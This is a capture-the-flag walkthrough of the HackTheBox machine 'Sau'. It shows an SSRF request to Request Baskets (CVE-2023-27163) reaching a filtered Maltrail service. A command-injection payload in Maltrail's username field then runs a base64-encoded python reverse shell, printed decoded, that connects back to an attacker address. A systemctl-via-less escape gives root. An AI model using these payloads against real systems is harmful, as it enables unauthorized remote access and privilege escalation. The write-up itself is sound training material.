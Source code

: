 ```yaml
---
layout: page
title: Sau
img: assets/img/writeups/hackthebox/Sau/sau_logo.png
importance: 1
category: hackthebox
---
```


## Foothold
Port scanning - 22, 80 (filtred?), 55555
{% include figure.html path="assets/img/writeups/hackthebox/Sau/sau_nmap.png" title="example image" class="img-fluid rounded z-depth-1" %}

Let's take a look at unknown service. We will meet the Request Basket - web service to collect arbitrary HTTP requests and inspect them via RESTful API or simple web UI.

{% include figure.html path="assets/img/writeups/hackthebox/Sau/sau_web.png" title="example image" class="img-fluid rounded z-depth-1" %}

Directory and subdomain bruteforcing give nothing. Since we have an open source application - a good practice to discover [github](https://github.com/darklynx/request-baskets) project.

Remember version (v 1.2.1) and some googling helps to identify SSRF CVE-2023-27163.

## User
CVE-2023-27163 vulnerability allows attackers to access network resources and sensitive information by exploiting the /api/baskets/{name} component through a crafted API request.

Time to recall a filtered port at 80 port and all solution be obvious. Exploiting SSRF from service on 55555 port can give access to 80 filtered port.

To exploit that SSRF, set proxy settings in web application to forward traffic to 0.0.0.0:80. POST request with JSON body we looks like that:
```json
{
	"forward_url": "http://0.0.0.0:80", 
	"proxy_response": true, 
	"insecure_tls": false, 
	"expand_path": false, 
	"capacity": 10
}
```

After updating proxy settings web server forward traffic to filtered port. It gives an opportunity to discover information about new service. 

Service on filtered port- [Maltrail](https://github.com/stamparm/maltrail) v0.53. 
  
The Internet whispers that the application with this version is subject to unauthenticated OS command injection.

The `subprocess.check_output` function in mailtrail/core/http.py contains a command injection vulnerability in the `params.get("username")`parameter.

An attacker can exploit this vulnerability by injecting arbitrary OS commands into the username parameter. The injected commands will be executed with the privileges of the running process. This vulnerability can be exploited remotely without authentication.

My exploit request with reverse shell looked like:

```
username=;`echo+ZXhwb3J0IFJIT1NUPSIxMC4xMC4xNC4xMzQiO2V4cG9ydCBSUE9SVD05MDAwO3B5dGhvbjMgLWMgJ2ltcG9ydCBzeXMsc29ja2V0LG9zLHB0eTtzPXNvY2tldC5zb2NrZXQoKTtzLmNvbm5lY3QoKG9zLmdldGVudigiUkhPU1QiKSxpbnQob3MuZ2V0ZW52KCJSUE9SVCIpKSkpO1tvcy5kdXAyKHMuZmlsZW5vKCksZmQpIGZvciBmZCBpbiAoMCwxLDIpXTtwdHkuc3Bhd24oIi9iaW4vYmFzaCIpJw|base64+-d|bash`
```

Where Base64 code is default python reverse shell:
```bash
export RHOST="10.10.14.183";
export RPORT=9000;
python3 -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/bash")'
```

Handling shell with netcat will give us an user access to machine.

Here we got an user flag!
{% include figure.html path="assets/img/writeups/hackthebox/Sau/sau_user.png" title="example image" class="img-fluid rounded z-depth-1" %}

## Root
```bash
sudo -l
```
Puma user can use systemctl with sudo privileges.
{% include figure.html path="assets/img/writeups/hackthebox/Sau/sau_privesc2.png" title="example image" class="img-fluid rounded z-depth-1" %}

Output of that sudo command gets piped automatically through 'less'. It can give opportunity to execute commands in 'less' command line.
```less
!sh
```
It means, user have ability to spawn root shell and get second flag.

{% include figure.html path="assets/img/writeups/hackthebox/Sau/sau_privesc.png" title="example image" class="img-fluid rounded z-depth-1" %}
